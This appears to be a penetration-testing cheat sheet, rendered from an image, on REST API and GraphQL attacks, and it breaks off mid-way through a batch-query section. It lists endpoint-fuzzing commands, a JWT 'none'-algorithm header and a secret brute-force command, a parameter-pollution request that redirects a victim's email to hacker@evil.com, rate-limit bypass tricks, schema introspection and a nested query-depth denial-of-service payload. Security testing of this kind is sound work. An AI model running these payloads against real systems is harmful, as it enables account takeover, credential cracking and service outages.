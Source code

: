### REST API Vulnerability Testing
```bash
# API Endpoint Discovery
gobuster dir -u http://api.example.com -w /usr/share/wordlists/api_endpoints.txt
ffuf -w /usr/share/wordlists/api_endpoints.txt -u http://api.example.com/FUZZ

# JWT Token Manipulation
# None Algorithm Attack
{"alg":"none","typ":"JWT"}
# Weak Secret Brute Force
jwt-cracker eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9... wordlist.txt

# API Parameter Pollution
POST /api/user/update
user_id=victim&user_id=attacker&email=hacker@evil.com

# Rate Limiting Bypass
# X-Forwarded-For header manipulation
# X-Real-IP header manipulation
# User-Agent rotation
```

**Documentation**: API-specific security testing techniques and vulnerabilities.
**Limitations**: API gateways provide protection; rate limiting and authentication prevent many attacks.

### GraphQL Security Testing
```graphql
# Information Disclosure
query {
  __schema {
    types {
      name
      fields {
        name
        type {
          name
        }
      }
    }
  }
}

# Query Depth Attack (DoS)
query {
  user {
    posts {
      comments {
        user {
          posts {
            comments {
              user {
                name
              }
            }
          }
        }
      }
    }
  }
}

# Batch Query Attack
[
```
